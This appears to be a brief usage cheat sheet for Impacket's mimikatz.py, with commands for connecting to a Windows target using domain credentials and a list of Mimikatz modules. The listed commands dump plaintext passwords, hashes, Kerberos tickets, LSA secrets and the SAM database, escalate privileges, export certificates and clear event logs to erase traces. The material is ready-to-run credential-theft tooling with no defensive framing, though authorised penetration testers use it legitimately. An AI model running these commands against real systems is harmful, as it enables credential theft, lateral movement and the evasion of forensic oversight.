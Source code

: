 ### Script Execution
```bash
# Execute commands from file
python3 mimikatz.py domain.local/admin:password@target.domain.local -file commands.txt

# Example commands.txt content:
# sekurlsa::logonpasswords
# sekurlsa::wdigest
# sekurlsa::tickets
# exit
```

### Common Mimikatz Commands (once connected)
```bash
# In the mimikatz shell:

# Extract plaintext passwords and hashes
sekurlsa::logonpasswords

# Extract Kerberos tickets
sekurlsa::tickets

# Extract WDigest passwords
sekurlsa::wdigest

# Extract LSA secrets
lsadump::secrets

# Dump SAM database
lsadump::sam

# Token manipulation
token::elevate
token::whoami

# Privilege escalation
privilege::debug

# Export certificates
crypto::capi

# Clear event logs
event::clear
```

### Debug and Logging
```bash
# Enable debug output for troubleshooting
python3 mimikatz.py -debug domain.local/admin:password@target.domain.local

# Add timestamps to output
python3 mimikatz.py -ts domain.local/admin:password@target.domain.local

# Combined debug and timestamps
python3 mimikatz.py -debug -ts domain.local/admin:password@target.domain.local
```
